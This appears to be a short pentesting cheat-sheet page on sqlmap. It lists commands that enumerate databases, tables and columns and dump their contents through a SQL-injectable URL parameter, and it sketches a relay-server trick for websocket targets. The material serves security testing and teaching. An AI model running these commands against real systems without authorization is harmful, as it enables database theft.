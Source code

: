 # 🗃️ Database

## sqlmap

<Image src={require("./assets/sqlmap.png").default} />

Use `-u` to define the target url and `--batch` to use the default behavior without asking for input.

In the next commands, `id` is a query parameter that is vulnerable to SQL injection.

Enumerate databases.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dbs
```

Enumerate tables of a specific database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --tables -D db_name
```

Enumerate tables content of a specific database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name
```

Enumerate content by specifing table, column, and database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name -T table_name -C col_name
```

## Extras

### Using sqlmap with websockets

sqlmap may not support all types of requests, including those made over websockets. Also, working with complex targets can sometimes be cumbersome using sqlmap alone.

To simplify the process, it is possible to set up a fake server as an intermediary. In this way, sqlmap would make a request to the fake server using a common format, and the fake server would then make the more complex request to the actual target.

<Image src={require("./assets/sqlmap_over_websockets.png").default} />

<Gist id="4adec402e51df2bf3e35066172abaebf" />
